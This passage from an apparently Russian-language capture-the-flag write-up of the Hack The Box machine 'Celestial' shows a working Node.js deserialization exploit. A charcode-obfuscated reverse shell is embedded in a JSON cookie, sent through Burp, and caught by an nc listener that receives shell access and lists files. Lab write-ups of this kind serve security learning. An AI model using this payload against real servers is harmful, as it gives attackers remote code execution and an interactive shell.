 ```
{"username": "3v3l_h4ck3r", "country": "Shangri-La", "city": "Civitas Solis", "num": "13373", "run": "_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,32,32,32,32,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,32,32,32,32,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,32,32,32,32,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,32,32,32,32,80,79,82,84,61,34,51,49,51,51,55,34,59,10,32,32,32,32,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,32,32,32,32,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,32,32,32,32,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,10,32,32,32,32,99,40,72,79,83,84,44,80,79,82,84,41,59,10,32,32,32,32))}()"}
```

Переводим в base64 и отправляем в Burp (не забыв при этом поднять слушателя на фоне на 31337 порт):

[![port3000-burp-2.png]({{ "/img/htb/boxes/celestial/port3000-burp-2.png" | relative_url }})]({{ "/img/htb/boxes/celestial/port3000-burp-2.png" | relative_url }})

# Внутри машины
А тем временем:
```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.85.
Ncat: Connection from 10.10.10.85:32968.
Connected!

ls
Desktop
Documents
Downloads
examples.desktop
Music
node_modules
output.txt
Pictures
Public
server.js
Templates
Videos
```
